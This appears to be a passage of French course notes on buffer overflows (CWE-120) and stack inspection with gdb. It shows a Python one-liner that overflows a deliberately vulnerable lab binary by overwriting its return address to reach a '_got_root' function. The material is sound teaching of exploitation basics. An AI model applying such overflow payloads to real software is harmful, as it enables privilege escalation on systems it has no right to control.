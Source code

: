 #### python 3
`print()` utilise UTF8 sur deux octets, il faut utiliser `sys.stdout.buffer.write()` en précisant le code format **b**
* `echo $(python3 -c "import sys; sys.stdout.buffer.write(b'a' * 10 + b'\xde\x11\x40\x00')")` 

```bash
edf@localhost ~/Doali/coding/securite/formation/CWE_120 |5fc8b21 master| $ ./cwe_120 $(echo $(python3 -c "import sys; sys.stdout.buffer.write(b'a' * 104 + b'\x00\x86\x11\x40')"))
bash: warning: command substitution: ignored null byte in input
sizeof(m_buf) : 112
adresse de _got_root : 0x401186
size=112
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�@
Wootwoot, you are now root!
edf@localhost ~/Doali/coding/securite/formation/CWE_120 |5fc8b21 master| $ 
```

> Car la structure fait 112 et que l'adresse est sur 8 octets et donc il nous faut remplir 104 octets et ensuite ajouter notre adresse
> pour pouvoir appeler notre fonction `_got_root` dont l'adresse est connue

### le tout ensemble
* `./main $(python -c "print('A'*10)")`  
permet d'envoyer la chaîne de caractères générée par python vers l'entrée standard de notre programme 

## Atelier 'Etude de la pile'
### Objectif
Connaître le focntionnement de la pile

### Todo
A l'aide du fichier `stack.c` étudiez la pile
* avant l'appel de la méthode `add(int,int)`
* à l'intérieur de la méthode `add(int,int)`
* avant l'appel de la fonction `printf`
Remarquez
* le passage de paramètres
* l'évolution des registres `ESP` et `EBP`
* comment est mise en place l'adresse de retour
    * `call` place le contenu du registre `IP` sur la pile
    * `ret` dépile le contenu de la pile et met à jour le registre `IP`

### Quelques commandes `gdb`
voir le fichier GDB `cheatsheet.pdf`
* `break` : place un point d'arrêt
    * `break add`
    * `break stack.c:14`
    * `break *0x400573`
* vues
    * `tui enable` / `tui disable` pour afficher la console
    * `layout src` : affiche les sources
    * `layout asm` : affiche l'assembleur
    * `layout regs` : affiche les registres
    * `focus` : donne le focus à un layout particulier (src, cmd, asm, ...)
* examiner la mémoire
    * `x/8wx $esp`
        * affiche 8 words au format hexa depuis l'adresse contenu dans ESP
* pas à pas
    * `s` : pas à pas profond dans les sources
    * `n` : pas à pas de surface dans les sources
    * `si` : pas à pas profond dans l'assembleur